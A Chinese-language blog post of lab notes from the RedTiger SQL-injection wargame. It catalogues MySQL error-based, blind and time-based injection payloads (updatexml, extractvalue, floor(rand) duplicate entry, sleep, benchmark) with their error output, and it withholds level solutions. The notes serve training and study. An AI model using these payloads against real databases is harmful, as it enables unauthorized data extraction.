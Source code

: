 ```yaml
---
title: redtiger靶场训练笔记
slug: redtiger-lab-training-notes
date: 2022-05-06 09:12:42
categories:
- security
tags:
- security
- redtiger
---
```


## 前言

靶场地址：http://redtiger.labs.overthewire.org/

按照靶场约定，不会直接给任何解。仅记录在这个靶场练习的时候学到的东西。

## error based SQL injection

red tiger 靶场都是盲注，但还是要提一嘴。学到多少算多少。error based SQL injection 顾名思义要靠错误，所以前端有错误消息回显才有用。但盲注的时候依然能用到一些相关技巧。

### 当前表列数量

#### group by 法

```sql
select * from users group by 5;
# SQL 错误 [1054] [42S22]: Unknown column '5' in 'group statement'
# 5 是列号，不存在列的时候报上面的错，需要自己枚举 1,2,3,4,5 直到确认。因为一次测一个真/假所以盲注的时候也能用。
```

#### order by 法

```sql
select * from users order by 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15;
# SQL 错误 [1054] [42S22]: Unknown column '3' in 'order clause'
# 3 是列号，order by 法一次可以枚举很多列，大多时候可以一次拿到当前表的列数。不过盲注的时候不行。可以用来缩小范围。
```

#### 子查询法

```sql
select * from users where (SELECT * from users)=(1,2);
# SQL 错误 [1241] [21000]: Operand should contain 2 column(s)
# 这个方法直接爆出有几个列，但要求知道表名
```

#### union 法

```sql
select * from users union all select 1,2,3,NULL,NULL,NULL,NULL,NULL,NULL 
# (types of columns must match or be of derived types or NULL)
# SQL 错误 [1222] [21000]: The used SELECT statements have a different number of columns
# 利用 union 查询列数量必须相等来确定左侧查询的列数量，如果左侧是 select * 的话那 union 查询枚举的列数量就是表里列的数量
```

### 获取列名

#### union+notnull

```sql
select * from users where (1,2,3) = (select * from users union all select 1%0,2,3);
# Error: Column 'id' cannot be null
# 实测发现在 MySQL 5.7 中不好使了，会出现 SQL 错误 [1242] [21000]: Subquery returns more than 1 row
```

#### insert

```sql
insert into users (id,username,passwd) values (if(1=1,NULL,'1'), '2','3')
# Error: Column 'id' cannot be null
# 要先得到列名，。而且实测 MySQL 5.7 里对主键+自增+非空，即使直接insert null 也会成功。
```

#### join

```sql
select * from (select * from users JOIN users a)b;
# Error: Duplicate column name 'id'
# 同样失效了。MySQL 5.7 下会返回重复的列名。
```

### 获取值

#### count floor(rand(0)*2) group by

```sql
select COUNT(*), CONCAT(version(), FLOOR(RAND(0)*2) )x from users GROUP BY x;
# SQL 错误 [1062] [23000]: Duplicate entry '5.7.331' for key '<group_key>'
# 需要注意的是 COUNT(*) 不能少
```

> *Works because mysql insides executes this query by making two queries: add count of x into temp table and if error (x value does not exist) then insert x value (second time x calculation) into table*

#### BIGINT UNSIGNED

```sql
select !(select * from (select version())x) - ~0;
# 在 MySQL 5.7 不起效。
# BIGINT UNSIGNED value is out of range in '((not((select `x`.`version()` from (select version() AS `version()`) `x`))) - ~(0))'
```

不过还存在一个能爆出列名的 payload。

```sql
select 2 * if((select * from test limit 1) > (select * from test limit 1), 18446744073709551610, 18446744073709551610);
# 注意 18446744073709551610 就是 ~0
# SQL 错误 [1690] [22001]: Data truncation: BIGINT UNSIGNED value is out of range in '(2 * if(((select `test`.`test`.`id`,`test`.`test`.`name` from `test`.`test` limit 1) > (select `test`.`test`.`id`,`test`.`test`.`name` from `test`.`test` limit 1)),18446744073709551610,18446744073709551610))'
# 这里会把 select * 展开成具体列名
```

#### updatexml

```sql
select updatexml(1, concat('~', version()), 1);
# SQL 错误 [1105] [HY000]: XPATH syntax error: '~5.7.33'
```

#### extractvalue

```sql
select extractvalue(1, concat('~', version()));
# SQL 错误 [1105] [HY000]: XPATH syntax error: '~5.7.33'
```

#### ST_LongFromGeoHash

```sql
select ST_LongFromGeoHash(version());
# MySQL >= 5.7.5
# SQL 错误 [1411] [HY000]: Incorrect geohash value: '5.7.33' for function ST_LONGFROMGEOHASH
```

## blind SQL injection

两个技巧。

### if/substring/ascii/char

灵活运用 `if`、`substring`、`ascii`、`char` 这些函数。

```sql
SELECT * FROM test WHERE id=0 OR IF(FIND_IN_SET(substring(version(),1,1),'0,1,2,3,4,5'),TRUE,FALSE);
```

`ascii`和`char`两个函数主要是解决不能注入字符串之类的问题。

```sql
SELECT * FROM test WHERE id = 0 OR ascii(substring(version(), 1, 1)) IN (48,49,50,51,52,53);
```

这样就能完全避免注入的SQL里包含`'`，对过滤 `'`的 WAF 大概会有用。

此外其他的返回布尔值的函数多少在合适的地方还是能一战的吧。

### order by

```sql
SELECT * FROM test ORDER BY (id*IF (ASCII(substring(VERSION(),1,1))=53,1,-1)) ;
```

注入点在 `order by` 子句的时候比较有用。

### find_in_set

这个就是纯 trick 了。用 `find_in_set` 可以一次判断更大的范围，减少请求次数。比如原本测试字符串一位就要跑字母表26个字母，算上大小写直接翻倍。`find_in_set`可以用的话就能实现二分法搜索，时间复杂度骤降。

## Time based SQL injection

也叫 *double blind SQL injection*， 双盲指的是就连SQL执行结果都看不到。不管传什么都返回完全相同的页面。这种情况只能靠请求时间来判断了。

### sleep

```sql
select if(version() like '5%', sleep(10), false);
```

不必多解释了吧。

### benchmark

```sql
select benchmark (10000000, md5(now()));
```

这种做法叫 `heavy queries`，就是给MySQL一个压力很大的查询，让MySQL花更长时间执行。除了 `benchmark` 之外还可以用 cross join ，求两个大表的笛卡尔积。cross join 时算法类似下面这样：

```go
for r1 := range table1 {
    for r2 := range table2 {
        results = append(results, pair(r1,r2))
    }
}
```

计算量等于两个表行数的积。不过前提是要知道表名，最少知道自己的表名，起码还能 JOIN 自己。如果数据量太少的话这个方法产生的返回时间差不够明显，就不能用了。

## 参考

- [MySQL 5.7 Manual - JSON function reference](https://dev.mysql.com/doc/refman/5.7/en/json-function-reference.html)
- [phonexicum.github.io SQLi](https://phonexicum.github.io/infosec/sql-injection.html)

## 思考

red tiger 的 level 1 和 level 2 真的很简单。选择正确的位置注入就能直接 pass，不需要考虑 bypass WAF，没有 trick。

level 3 开始就比较狗了，提示 try to get an error，但这句话不是让你往 error based SQL injection 的方向想，我就给带歪了，还想着怎么制造个能回显的注入 payload ，实际上根本不是这个意思。正确的方向是 制造一个 **PHP的错误**，解密 `usr` 这个参数。

具体就不说了，总之制造 PHP 的错误也需要动 `usr` ，我给的关键词是 type error，提示很明显了。

## 总结

以上，玩得开心。